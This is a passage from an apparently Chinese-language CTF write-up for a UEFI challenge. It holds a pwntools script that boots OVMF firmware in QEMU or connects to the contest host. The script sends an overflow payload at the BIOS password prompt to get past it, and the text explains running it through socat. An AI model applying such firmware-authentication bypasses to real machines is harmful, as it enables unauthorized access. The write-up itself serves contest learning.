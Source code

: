 ```python

if DEBUG == 0:
    fname = "/tmp/test_uefi"
    os.system("cp OVMF.fd %s" % (fname))
    os.system("chmod u+w %s" % (fname))

    p = process(["qemu-system-x86_64", "-m", "64M", "-drive", "if=pflash,format=raw,file="+fname, "-drive",
                    "file=fat:rw:contents,format=raw", "-net", "none", "-nographic"], env={})
elif DEBUG == 1:
    fname = "/tmp/test_uefi"
    os.system("cp OVMF.fd %s" % (fname))
    os.system("chmod u+w %s" % (fname))

    p = process(["qemu-system-x86_64", "-s", "-m", "64M", "-drive", "if=pflash,format=raw,file="+fname, "-drive",
                    "file=fat:rw:contents,format=raw", "-net", "none", "-nographic"], env={})
elif DEBUG == 2:
    p = remote('accessing-the-truth.pwn2win.party', 1337)

def exploit():
    p.recvn(1)
    # sleep(1)
    p.send("\x1b[24~")
    payload = b'\n'*0xa8 + p32(0x28b0dd5)
    payload += b'\r'

    #pause()
    p.sa('Password', payload)

    payload = '\r'
    p.s(payload)
    p.s(payload)

    p.irt()

if __name__ == "__main__":
    exploit()
```

### 进入BIOS并添加启动项

运行上述脚本。但是上述脚本不能直接运行，因为`pwntools`对图形界面的支持不够好。

因此，我们通过如下命令来通过`socat`挂载该程序：

```bash
socat -,raw,echo=0 SYSTEM:"python3 ./exp.py"
```

此时即可进入`BIOS`。

如图所示：
